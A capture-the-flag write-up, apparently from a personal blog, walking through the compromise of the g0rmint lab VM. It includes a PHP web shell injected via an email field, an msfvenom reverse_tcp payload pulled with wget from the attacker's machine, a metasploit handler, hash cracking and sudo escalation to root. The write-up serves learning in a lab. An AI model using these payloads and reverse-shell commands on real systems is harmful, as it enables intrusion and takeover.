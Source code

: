 +++
title = "g0rmint"
slug = "g0rmint"
+++

# g04mint

First off, find the box:

{% highlight bash %}
netdiscover -r 192.168.171.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
192.168.171.138 00:0c:29:1f:ad:4c      1      60  VMware, Inc.
192.168.171.254 00:50:56:fa:32:59      1      60  VMware, Inc.

{% endhighlight %}

Scan with nmap:

{% highlight bash %}
nmap -T4 -A -oA g0rmint  192.168.171.138
{% endhighlight %}

Looks like 22 and 80 are open, not a lot to go on...

Accessing the server on port 80 returns a 404 page, better try for a robots.txt and find this:

/* Too easy? Lets see */
Disallow: /g0rmint/*

Now I'm faced with a login page and nothing to go on, however the following showed up in the login page's markup:

{% highlight html %}
<meta name="backup-directory" content="s3cretbackupdirect0ry">
{% endhighlight %}

Next run dirb to try and find hidden content, nothing really popped up.

I tried fuzzing a bunch of mobile user agents to see if this meta tag somehow triggers a different page response as well as brute forcing the login/reset forms, nothing seemed to be working.

Then I remembered I need to try force browsing that directory now that new file system elements exist:

{% highlight bash %}

dirb http://192.168.171,138/g0rmint/s3crebackupdirect0ry -i -l

{% endhighlight %}

This found an info.php file which shows backup.zip, lets download that and take a look

A few interesting things here, first the config file has a function for writing PHP files out to the server, and the login page calls this storing the email form field in the generated PHP.

{% highlight php %}

function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}

{% endhighlight %}

Next looking at the register page if we know a legit user/email combination the user's password will be reset to the first 20 characters of a sha1 hash of the current date/time in GMT, which luckily gets printed to the page each time you reload or submit a postback.


After a lot of banging my head I finally learned a vital piece I'm usually missing during enumeration, in this case we need an email.  What I'm finally learning is I should be searching better any time I have a known input, in this case the email can be searched for in all this source code:

{% highlight bash %}

grep -i -r -E -o "\b[a-zA-Z0-9.-]+@[a-zA-Z0-9.-]+\.[a-zA-Z0-9.-]+\b" *
Binary file backup.zip matches
css/font-awesome.min.css:dave@davegandy.com
css/style.css:w3bdrill3r@gmail.com
css/style.css:timeline-left-arrow@2x.png
css/style.css:timeline-right-arrow@2x.png
css/style.css:chat-left@2x.png
css/style.css:chat-right@2x.png
css/style.css:chat-left-metro@2x.png
css/style.css:chat-right-metro@2x.png
css/font-awesome-ie7.min.css:dave@davegandy.com
db.sql:demo@example.com
Binary file img/gallery/photo5.jpg matches
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:dio@std42.ru
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:strogg@yandex.ru
js/jquery.elfinder.min.js:hypweb@gmail.com

{% endhighlight %}

Now to review all the files, style.css seems like a good starting point, thats usually the place an author or developer would put their CSS for a site/app.

{% highlight css %}

/*
* Author: noman
* Author Email: w3bdrill3r@gmail.com
* Version: 1.0.0
* g0rmint: Bik gai hai
* Copyright: Aunty g0rmint
* www: http://g0rmint.com
* Site managed and developed by author himself
*/

{% endhighlight %}

Right in plain site, it even states the manager/developer/admin as this person.

Now to get our password, time to generate our hash:

{% highlight php %}

substr(hash('sha1', 'date time string from the page load'), 0, 20);

{%endhighlight %}

and we have our password.

With the amount of time that elapsed getting this far I had completely forgotten about the addslashes call in config.php which lead to me wasting hours trying to get decent code execution going.  Once I reviewed the code again getting execution was pretty straightforward:

{% highlight php %}

<?php echo shell_exec(base64decode($_GET[cmd])); ?> 

{% endhighlight %}

as our email and we can start sending commands.

Now to generate a wget command to pull down a reverse_tcp shell:

{% highlight bash %}

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
echo 'wget http://192.168.171.36:8000/shell.php' | base64
d2dldCBodHRwOi8vMTkyLjE2OC4xNzEuMzY6ODAwMC9zaGVsbC5waHAK==
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.171.138 - - [17/Jan/2018 22:32:39] "GET /shell.php HTTP/1.1" 200 -
{% endhighlight %}

Now to setup metasploit to handle the callback:

{% highlight bash %}

screen -S msf msfconsole

msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 192.168.171.136
LHOST => 192.168.171.136
msf exploit(handler) > set LPORT 4444
LPORT => 4444

set PAYLOAD php/meterpreter/reverse_tcp

{% endhighlight %}

Then request our webshell, and we have a meterpreter session running.

Once connected I grabbed and ran LinEnum from rebootuser in hopes of finding something juicy.  Once I had the output I started parsing through and searched for vulns in the kernel, mysql, apache. logs, binaries, etc. and having nothing work.  Then took a look around and saw another backup.zip, extract and get this difference:

{% highlight sql %}
INSERT INTO `g0rmint` (`id`, `username`, `email`, `pass`) VALUES
(1, 'noman', 'w3bdrill3r@gmail.com', 'ea60b43e48f3c2de55e4fc89b3da53dc');
{% endhighlight %}

Then crack the hash and get: tayyab123

Now to try ssh with the g0rmint user in /etc/passwd and get a login, run sudo -l:

{% highlight bash %}
g0rmint@ubuntu:~$ sudo -l
[sudo] password for g0rmint:
Matching Defaults entries for g0rmint on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User g0rmint may run the following commands on ubuntu:
    (ALL : ALL) ALL
{% endhighlight %}

Looks like we're done: 

{% highlight bash %}

g0rmint@ubuntu:~$ sudo su
root@ubuntu:/home/g0rmint# ls /root
flag.txt
root@ubuntu:/home/g0rmint# cat /root/flag.txt
Congrats you did it :)
Give me feedback @nomanriffat
root@ubuntu:/home/g0rmint#

{% endhighlight %}
